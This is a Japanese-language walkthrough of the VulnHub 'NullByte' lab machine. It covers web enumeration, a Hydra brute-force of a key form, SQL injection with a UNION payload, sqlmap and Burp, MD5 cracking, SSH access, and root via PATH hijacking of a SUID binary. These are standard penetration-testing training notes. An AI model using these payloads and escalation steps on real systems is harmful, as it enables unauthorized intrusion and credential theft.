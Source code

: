 ## NullByte  760~
### ポートスキャンまでは同じ
- 80,111,777,4474

### Webサイトを見る
- `ctrl + u`でHTMLソースコードが見れるので、チェックする。ここには画像であるmain.gifぐらいしかないが、、

### dirb
- gobusterみたいに隠しサイトを見つけてくるもの。ただ、Gobusterとは異なり、ディレクトリを深く再帰していく
- `dirb http://$IP /usr/share/dirb/wordlists/small.txt`
  - デフォルトのwordlists使うと終わらない 
- phpMyAdmin,javascript,uploadsディレクトリが見つかる、今はどうしようもないので後で使う


### 怪しい画像ファイルを調査する
- 画像サイトでソースを見る ショートキーの`ctrl + u`それでmain.gifであることがわかる
- `wget http://$IP:80/main.gif`
- ファイルを調べる、どちらでもいいがexiftoolの方が有能
  - stringコマンドはファイルの中に文字列があるのを抜き出してくる`strings main.gif`
  - `exiftool main.gif` exiftoolコマンドは画像などのメタデータを調べるコマンド
- 謎のコメントが得られる`kzMb5nVYJw`こういう、画像のなどのファイルに他のデータなどファイルを隠すことをステガノグラフィと呼ぶ

### Webサイト 
- `http://192.168.56.?/kzMb5nVYJw`サイトを見る

### SecListをダウンロードする
- パスワードの辞書
- `cd ~/vulnhub`
- `wget https://github.com/danielmiessler/SecLists/archive/refs/heads/master.zip`
- `unzip master.zip`

### Hydraで攻略
- HTMLソース(ctrl + u)のコメントに使うツールのヒントが書かれている
- WebサイトのHTMLソースからindex.phpのkeyにパスワードが送信されていることがわかる
- `hydra -l test -P ~/vulnhub/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $IP 
http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"` 
  - ここでは１箇所しか入力するところがないので、ユーザ名は適当なtestという名前を入れている
  - `key=^PASS^`はhtmlのソースにあるkeyに辞書のパスワードが順に入ることになる
  - `http://`は書かない
  - `~ $IP/kzMb5nVYJw http-post-form ~`みたいな書き方はエラーになる
- パスワードがわかる `elite`
- webサイトにパスワードがあるので、入力する

### 得られたkeyで認証する
- search for usernamesページ
```html
<p>Search for usernams: </p>
<hr>
<form action="420search.php" method="get">
Enter username:<br>
<input type="text" name="usrtosearch">
</form>
```

- 空のまま`Enter`を押すと、とりあえずuser名がわかる
  - `ramses` `isis` 
- リンクを見たら最後に`php?usrtosearch=`となっている、ここの最後にいろいろ入力してみる
  - SQLインジェクションの典型的なコードを入力してみる`1' OR 'a'='a`
  - 特に何も起こらない
  - `'`
  - これも何も起こらない
  - `"`
  - これでエラーを吐き出すのでSQLInjectionができることがわかる 

### 次の攻略1または2,3のどちらかを使う
### (攻略1)SQLインジェクション攻撃でユーザ名を列挙する
- 次の二つのどちらでもいい
1. ブラウザのリンク欄に次のを入力する
- `http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch="union select concat(id,'_',user,'_',pass,'_',position), null, null from users;-- -`
2. サイトの入力欄に入力する
- `"union select concat(id,'_',user,'_',pass,'_',position), null, null from users;-- -`
- 注意点
  - ダブルクォーテーションが片方にしかないのに注目
  - `;-- -`の部分は`;#`でもOK
- ramsesのpassをコピーする

### (攻略2)SQLMapツールで突破する
- データベースの中身を確認する
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" --dbs`
- sethのデータベースの中身を見る
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C id,position,user,pass --dump`
- いろいろ聞かれるが、全部`y`を入力して押す
- ramsesのpassをコピーする

### (攻略3)BurpSuiteで突破する
- いつも通りにブラウザを開けて、適当に文字を入れてintercept onにして止める
- GETメソッドをRepeaterで書き換えるため、右クリックでsend to repeaterにデータを送る
- SQLインジェクションを書いて、ウェブサイトでURLencodeしてGETメソッドに貼り付けてsendする
- Responseが返ってきたらRenderにすると見やすい

### Base64でデコードする
- 単語の数を数えてみる4の倍数ならbase64になる
  - `echo -n ペースト | wc` 
- ペーストした最後に`=`イコールをつけてパッディングして復号する
- `echo -n "ペースト=" | base64 -d`
  - うまく変換できていれば、hash.txtに保存する
- `echo -n "ペースト=" | base64 -d > hash.txt`  

### パスワードの解析
- 文字の数が32文字であることから、md5っぽい
- `hashid hash.txt`や`hash-identifier ハッシュ値`でもmd5っぽい
- `sudo john --format=raw-md5 hash.txt`
  - hash.txtに書き込んだのはmd5という形式の暗号化である
  - 過去に解読してる場合`sudo john --show --format=raw-md5 hash.txt`

### ssh
- `ssh ramses@192.168.56.108 -p 777`
  - ポート番号に注意

### システム内を探索する
- フォルダを探索する
- `sudo -l`
  - パスワードがわからない 
- SUIDを探す
  - `find / -perm -u=s -type f 2> /dev/null` 順番も合ってないとエラーになるので注意
  - 怪しいコマンドがある 
- `cat .bash_hitory`
  - 謎のコマンドを実行していることがあるので、大きなヒントになる 

### 怪しいプログラムを調べる
- SUIDで探した怪しいprocwatchファイルを調べる
  - `cd /var/www/backup`
  - `cat procwatch` 文字化けしている、バイナリファイルかもしれない
  - `file procwatch` 実行ファイルだとわかる
- 謎のコマンドが実行されている
  - `./procwatch`

### PATHハイジャック
- これはどこかで見たことのあるコマンド?procwatchは裏でpsコマンドを呼んでいるので、そのpsコマンドを書き換えてbashが起動するようにする。
- `echo $PATH`
  - PATHは左から順に読み込まれるので、本物のpsコマンドより先に偽のbashを書いたpsコマンドを/tmpディレクトリをはじめに置いて、先に読み込ませる
- psコマンドをどこからでも呼べるためにパスを通す
  - `export PATH=/tmp:$PATH`
- `echo $PATH`
- pcコマンドのファイルにシェル(sh)を実行できるように書き込む
  - `echo "/bin/sh" > /tmp/ps`
- `chmod 777 /tmp/ps`
- ./procwatchを実行すると、裏でpsファイルが呼ばれて、そこにはshが書かれているので、shが実際は実行される。procwatchはSUID
  - `./procwatch` 
### 権限の昇格
- `cd /root`
- `cat proof.txt`

